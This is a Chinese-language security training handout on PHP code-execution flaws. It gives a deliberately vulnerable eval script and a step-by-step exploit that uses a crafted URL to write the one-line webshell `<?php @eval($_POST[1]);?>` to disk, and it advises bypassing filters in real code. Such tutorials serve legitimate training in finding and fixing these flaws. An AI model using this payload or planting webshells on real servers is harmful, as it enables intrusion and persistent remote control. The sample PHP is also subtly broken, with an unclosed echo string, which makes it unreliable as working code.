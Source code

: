```yaml
---
title: 米斯特白帽培训讲义 漏洞篇 代码执行
id: csdn53763163
---
```


# 米斯特白帽培训讲义 漏洞篇 代码执行

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 原理

由于开发人员编写源码时，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句，并交由服务端执行。命令注入攻击中，Web 服务器没有过滤类似`system`、`eval`和`exec`等函数，是该漏洞攻击成功的主要原因。

## 实例代码

```
<?php
// code-exe.php:
$code=@$_GET['code'];//http://localhost/subject/code-exe.php?code=
echo "<center>Payload:".$code."<br/>Result:</center>
eval($code);
```

整个代码就三行，第一行用于从 URL 参数中读取`code`参数的值。第二行用于输出该参数的值，用于检查该参数。第三行直接将该参数当做 PHP 代码执行。由于不存在任何过滤，就会产生代码执行漏洞。

我们在该文件的目录下执行`php -S 0.0.0.0:80`，之后访问`http://localhost/code-exe.php?code=phpinfo();`，我们可以看到该代码执行了`phpinfo`函数：

![](../img/04b1ad4072e56b6bc0a236bafbe68c19.png)

## 利用

我们可以将 URL 中`code`参数值换成不同的 PHP 代码，使其执行不同的 PHP 代码。利用此漏洞的关键还是熟悉所有可用的 PHP 代码。

比如，可以使用`phpinfo`或者`echo`等调试函数来判定漏洞。最重要的是，可以利用这个漏洞写入 Webshell，代码如下：

```
$file='mst.php'; // 一句话木马的文件名
$person='<?php @eval($_POST[1]);?>'; // 一句话文件名的代码
file_put_contents($file,$person, FILE_APPEND | LOCK_EX); // 当key.php文件不存在会自动创建，如果存在就会添加
```

我们需要把这三行代码写入 URL 中，得到的 URL 是这样：`http://localhost/code-exe.php?code=$file='mst.php';$person='<?php @eval($_POST[1]);?>';file_put_contents($file,$person, FILE_APPEND | LOCK_EX);`。

访问之后，当前目录就会多出一个`mst.php`，内容为`<?php @eval($_POST[1]);?>`，这个就是一句话木马。由于不是讲工具的章节，这里就不拿菜刀演示了。

在实际代码中，当然不可能这么短，就需要大家使用`eval`和`exec`作为关键词来搜索可能的漏洞点。另外，实际代码中还可能在执行之前对`$code`进行过滤，也需要大家发挥创造性，绕过过滤来成功利用它。